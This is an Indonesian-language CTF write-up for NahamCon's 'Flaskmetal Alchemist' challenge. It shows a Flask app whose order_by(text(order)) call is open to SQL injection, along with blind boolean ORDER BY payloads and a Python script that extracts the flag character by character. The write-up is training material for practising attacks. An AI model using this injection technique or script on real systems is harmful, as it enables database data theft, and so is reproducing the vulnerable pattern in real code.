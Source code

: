 # Flaskmetal Alchemist
#medium #web #sqlinjection

This flag does not follow the usual MD5 hash style format, but instead is a short style with lower case `flag{letters_with_underscores}`

## Target
Web yang digunakan untuk melakukan query metal.
![](attachments/Pasted%20image%2020220503171224.png)

**database.py**   
Menggunakan sqlite.
```python
from sqlalchemy import create_engine
from sqlalchemy.orm import scoped_session, sessionmaker
from sqlalchemy.ext.declarative import declarative_base

engine = create_engine("sqlite:////tmp/test.db")
db_session = scoped_session(
    sessionmaker(autocommit=False, autoflush=False, bind=engine)
)
Base = declarative_base()
Base.query = db_session.query_property()

def init_db():
    Base.metadata.create_all(bind=engine)
```

**models.py**
Ada 2 tabel: `metals` yang berisi kolom `atomic number`, `symbol`, dan `name` dan tabel `flag` yang berisi flag.
```python
from database import Base
from sqlalchemy import Column, Integer, String

class Metal(Base):
    __tablename__ = "metals"
    atomic_number = Column(Integer, primary_key=True)
    symbol = Column(String(3), unique=True, nullable=False)
    name = Column(String(40), unique=True, nullable=False)

    def __init__(self, atomic_number=None, symbol=None, name=None):
        self.atomic_number = atomic_number
        self.symbol = symbol
        self.name = name

class Flag(Base):
    __tablename__ = "flag"
    flag = Column(String(40), primary_key=True)

    def __init__(self, flag=None):
        self.flag = flag
```

**app.py**
```python
from flask import Flask, render_template, request, url_for, redirect
from models import Metal
from database import db_session, init_db
from seed import seed_db
from sqlalchemy import text

app = Flask(__name__)


@app.teardown_appcontext
def shutdown_session(exception=None):
    db_session.remove()


@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        search = ""
        order = None
        if "search" in request.form:
            search = request.form["search"]
        if "order" in request.form:
            order = request.form["order"]
        if order is None:
            metals = Metal.query.filter(Metal.name.like("%{}%".format(search)))
        else:
            metals = Metal.query.filter(
                Metal.name.like("%{}%".format(search))
            ).order_by(text(order))
        return render_template("home.html", metals=metals)
    else:
        metals = Metal.query.all()
        return render_template("home.html", metals=metals)


if __name__ == "__main__":
    seed_db()
    app.run(debug=False)
```

## Solusi
- Kita fokus ke pengiriman query dari Flask.
```python
metals = Metal.query.filter(
    Metal.name.like("%{}%".format(search))
).order_by(text(order))
```

- Fungsi `like` aman dari injeksi, namun tidak dengan fungsi `order_by`.
```sql
SELECT metals.atomic_number AS metals_atomic_number, metals.symbol AS metals_symbol, metals.name AS metals_name
FROM metals
WHERE metals.name LIKE ? ORDER BY <Injeksi>
```

- BlindSQL injection dengan kondisi sorting, apabila benar maka sortir berdasarkan `atomic_number` apabila salah sortir berdasarkan `symbol`.
```sql
CASE
WHEN (SELECT SUBSTR(flag,1,1) FROM flag)='f'
  THEN atomic_number 
ELSE 
  symbol 
END
```

![](attachments/Pasted%20image%2020220503175850.png)

- Ketika tebakan benar, akan diurutkan berdasarkan `atomic_number`.
```http
POST / HTTP1.1
...
...

search=&order=CASE+WHEN+(SELECT+SUBSTR(flag,1,1)+FROM+flag)='F'+THEN+atomic_number+ELSE+symbol+END
```
![](attachments/Pasted%20image%2020220503213116.png)

- Ketika tebakan salah, akan diurutkan berdasarkan `symbol`
```http
POST / HTTP1.1
...
...

search=&order=CASE+WHEN+(SELECT+SUBSTR(flag,1,1)+FROM+flag)='r'+THEN+atomic_number+ELSE+symbol+END
```

![](attachments/Pasted%20image%2020220503213218.png)

- Script
```python
#!/usr/bin/env python3

import requests
import string

url = 'http://challenge.nahamcon.com:30606/'
chars = string.ascii_lowercase + '{}_'
inject = "CASE WHEN (SELECT SUBSTR(flag,{},1) FROM flag)='{}' THEN atomic_number ELSE symbol END"

flag = ''
index = 1
char = 'f'

while True:
    for char in chars:
        req = requests.post(url, data= { 'search': '', 'order': inject.format(index, char) })
        res = req.text.split('\n')
        if 'Li' in res[74]:
            flag += char
            index+=1
            break
    print(flag)
    if flag[-1] == '}':
        break

```

- Run script  
![](attachments/Pasted%20image%2020220503215952.png)

## Source
https://github.com/ryan-cd/ctf/tree/master/2022/nahamcon/web/flaskmetal_alchemist
